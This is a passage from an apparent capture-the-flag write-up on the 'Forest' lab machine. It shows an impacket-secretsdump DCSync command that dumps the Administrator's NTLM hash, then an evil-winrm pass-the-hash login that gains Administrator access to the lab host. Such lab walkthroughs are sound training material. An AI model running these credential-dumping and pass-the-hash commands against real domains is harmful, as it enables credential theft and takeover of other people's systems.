 Then I use `impacket-secretsdump` to DCSync the Administrator account and grab their NTLM hash.

`impacket-secretsdump jdotinfo:Password1@forest -outputfile hashes.txt`

![](images/forest15.png)

I try and crack that hash but no luck.

<br>

## Root

With the Administrators hash I try and pass the hash with evil-winrm and it works.

`evil-winrm -i forest -u Administrator -H '<REDACTED>'`

![](images/forest16.png)

You can find the root.txt flag on the Administrator's desktop.

![](images/forest17.png)
